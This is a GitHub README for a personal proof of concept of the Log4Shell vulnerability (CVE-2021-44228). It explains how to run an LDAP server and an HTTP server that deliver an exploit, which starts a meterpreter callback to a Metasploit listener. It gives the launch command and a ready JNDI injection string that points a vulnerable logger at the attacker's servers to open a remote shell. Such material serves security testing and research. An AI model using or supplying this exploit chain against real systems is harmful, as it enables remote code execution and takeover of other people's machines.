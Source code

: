 # l4s_poc
Log4Shell (Cve-2021-44228) Proof Of Concept

This is a personal project that runs a simple POC that will host an LDAP
server and an HTTP server for the Log4Shell exploit.  

##Server##
The run_servers.py will setup a stripped down meterpreter client that will call
back to the Metasploit instance passed into the ldap request.  **This will run
the meterpreter instance in a thread in the original process that was affected
by the Log4Shell exploit.**

The LDAP server is written in Java and the HTTP server is hosted in python and
will serve from a newly created wwwroot directory.  This does require java,
javac and mvn to build the exploits, and host the LDAP server.  I used Java 8.

Python3 is also required.

####to get started####
run python3 run_server.py <your_ip_address> <the_http_port> [ldap_port]

Then pass the jndi string to a vulnerable client to log i.e:
if your host was 10.20.30.40 and your metasploit instance was 20.30.40.50 
listening on port 4444 it would look like this : 
'${jndi:ldap://10.20.30.40:1389/#MM_20_30_40_50_4444}'

##Clients##
The clients directory has 2 clients that can be executed.  One is a simple command
line program that will write an error log for whatever the 1st param passed in is.

The other is a basic web server that will write an error log using the log_me
header information.  Note this should be run in an isolted controlled env.
